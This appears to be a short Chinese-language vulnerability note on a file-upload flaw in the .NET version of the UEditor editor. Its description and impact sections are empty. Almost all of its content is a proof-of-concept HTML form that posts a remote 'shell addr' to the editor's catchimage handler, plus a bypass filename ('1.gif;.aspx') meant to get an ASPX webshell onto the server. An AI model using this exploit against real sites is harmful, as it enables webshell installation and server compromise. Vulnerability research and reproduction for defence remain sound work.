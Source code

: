 ```yaml
---
title: "ueditor .net版本上传漏洞"
id: zhfly3208
---
```


# ueditor .net版本上传漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

本地上传poc

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form> 
```

上传文件名为 1.gif;.aspx